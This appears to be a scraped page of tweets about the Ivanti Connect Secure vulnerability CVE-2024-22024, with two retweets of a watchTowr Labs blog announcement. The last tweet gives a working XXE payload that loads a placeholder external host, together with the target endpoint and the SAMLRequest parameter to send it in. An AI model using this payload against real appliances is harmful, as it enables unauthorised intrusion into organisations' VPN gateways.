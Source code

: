 # wdormann
**https://twitter.com/wdormann/status/1755930874086867113 _at 2024-02-09, 12:25:18_**
<blockquote>
RT @watchtowrcyber: 🚀Ivanti Connect Secure CVE-2024-22024 

we've released our watchTowr Labs blog post, containing a little bit of comment…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1755901649103859929 _at 2024-02-09, 10:29:10_**
<blockquote>
RT @watchtowrcyber: 🚀Ivanti Connect Secure CVE-2024-22024 

we've released our watchTowr Labs blog post, containing a little bit of comment…
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>56</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# h4x0r_dz
**https://twitter.com/h4x0r_dz/status/1755849867149103106 _at 2024-02-09, 07:03:25_**
<blockquote>
CVE-2024-22024,  XXE on Ivanti Connect Secure

payload encoded base64:

&lt;?xml version="1.0" ?&gt;&lt;!DOCTYPE root [&lt;!ENTITY % xxe SYSTEM "http://{{external-host}}/x"&gt; %xxe;]&gt;&lt;r&gt;&lt;/r&gt;

send it to  127.0.0.1/dana-na/auth/saml-sso.cgi with SAMLRequest parm

#bugbountytips #cve #Ivanti https://t.co/ShIkDghTU0
</blockquote>

<table><tr>